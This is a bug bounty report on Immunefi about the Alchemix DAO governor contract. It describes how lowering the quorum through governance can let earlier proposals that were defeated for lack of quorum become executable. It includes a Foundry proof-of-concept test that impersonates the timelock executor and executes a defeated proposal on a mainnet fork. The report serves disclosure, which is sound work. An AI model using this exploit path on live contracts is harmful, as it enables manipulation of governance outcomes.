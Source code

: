 # 30926 - \[SC - Low] AlchemixGovernor updates to quorum can affect p...

Submitted on May 8th 2024 at 13:10:54 UTC by @Lastc0de for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30926

Report type: Smart Contract

Report severity: Low

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/AlchemixGovernor.sol

Impacts:

* Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description

## Brief/Intro

In governance, there are usually proposals that for some reason (such as lack of quorum, and the number of votes ) defetated. This issue concerns instances of Governor that use the module `GovernorVotesQuorumFraction` In your protocol it is known as L2GovernorVotesQuorumFraction :

https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/governance/L2GovernorVotesQuorumFraction.sol

GovernorVotesQuorumFraction: Combines with GovernorVotes to set the quorum as a fraction of the total token supply. AlchemixGovernor inherits this module

```
contract AlchemixGovernor is L2Governor, L2GovernorVotes, L2GovernorVotesQuorumFraction /* @AUDIT */, L2GovernorCountingSimple
```

So this make vulnerable AlchemixGovernor contract.

If this report is unclear to you, refer to the reference link

## Vulnerability Details

Vulnerable contract is `AlchemixGovernor.sol` && `L2GovernorVotesQuorumFraction.sol`

https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/governance/L2GovernorVotesQuorumFraction.sol

Vulnerable function is `quorum()` :

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/governance/L2GovernorVotesQuorumFraction.sol#L49C1-L51C6

```
    function quorum(uint256 blockTimestamp) public view virtual override returns (uint256) {
        return (token.getPastTotalSupply(blockTimestamp) * quorumNumerator()) / quorumDenominator();
    }
```

The `token.getPastTotalSupply(blockNumber)` call will not be optimized the same way and, A mechanism that determines quorum requirements as a percentage of the voting token's total supply. when a proposal is passed to lower the quorum requirement, past proposals may become executable if they had been defeated only due to lack of quorum, and the number of votes it received meets the new quorum requirement.

## Impact Details

Past proposals may become executable if they had been defeated only due to lack of quorum, and the number of votes it received meets the new quorum requirement.

## References

https://github.com/OpenZeppelin/openzeppelin-contracts/security/advisories/GHSA-xrc4-737v-9q75

https://docs.openzeppelin.com/contracts/4.x/api/governance

## Proof of Concept

* To manually prank the executer and call a function with `onlyGovernance` modifier we need add calldata to queue:

1- Add the following function ro `L2Governor.sol` file

```
        function pushCalldata(bytes calldata hash) public {
        _governanceCall.pushBack(keccak256(hash));
    }
```

2- Add following function to `AlchemixGovernor.t.sol` file

```
function test_Execute_Defeated_Proposal_After_Update_Quorum() public {
    // Random users
        address jimmy = 0xc8dF939C61A33Aa83435bddcE76e6179f4653302;
    address sara = 0x72414Fe88759857e69797B4558a1f1475F32A462;
   
        createVeAlcx(sara, 5000e18, MAXTIME, false);
        createVeAlcx(jimmy, 15_000e18, MAXTIME, false);
       
        assertFalse(voter.isWhitelisted(usdc));

        (address[] memory t, uint256[] memory v, bytes[] memory c, string memory d) = craftTestProposal();

        hevm.warp(block.timestamp + 2 days); // delay

        uint256 quorum = governor.quorum(block.timestamp);
        uint256 votingPower = veALCX.getVotes(admin);

        assertGt(votingPower, quorum, "voting power should be greater than quorum");

        // propose
        hevm.startPrank(admin);
        uint256 pid = governor.propose(t, v, c, d, MAINNET);
        hevm.warp(block.timestamp + governor.votingDelay() + 1); // voting delay
        hevm.roll(block.number + 1);
        hevm.stopPrank();

        // vote by sara
        hevm.startPrank(sara);
        governor.castVote(pid, 1);
        hevm.stopPrank();
        // vote by jimmy
        hevm.startPrank(jimmy);
        governor.castVote(pid, 1);
        hevm.warp(block.timestamp + governor.votingPeriod() + 1); // voting period
        hevm.stopPrank();

        // execute
        hevm.startPrank(admin);
        hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay
        hevm.expectRevert(abi.encodePacked("Governor: proposal not successful"));
        governor.execute(t, v, c, keccak256(bytes(d)), MAINNET);

        hevm.warp(block.timestamp + governor.votingPeriod() + 10); // update timestamp
        hevm.stopPrank();
       
        // Update quorum numerator with governance

        address executor = address(governor.timelock());

        // Prepare the calldata
        bytes memory calldataRequired = abi.encodeWithSelector(
        bytes4(keccak256("updateQuorumNumerator(uint256)")),1000);

        // Add it to the queue
        governor.pushCalldata(calldataRequired);

        hevm.startPrank(address(executor));

        // Impersonate the executor and call the function
        // Update.
        governor.updateQuorumNumerator(1000);

        hevm.stopPrank();

        // Execute past defeated Proposal
        governor.execute(t, v, c, keccak256(bytes(d)), MAINNET);


        assertTrue(voter.isWhitelisted(usdc));
    }
```

3- Run test

```
forge test --match-test "test_Execute_Defeated_Proposal_After_Update_Quorum" --fork-url https://eth-mainnet.public.blastapi.io -vvvv
```
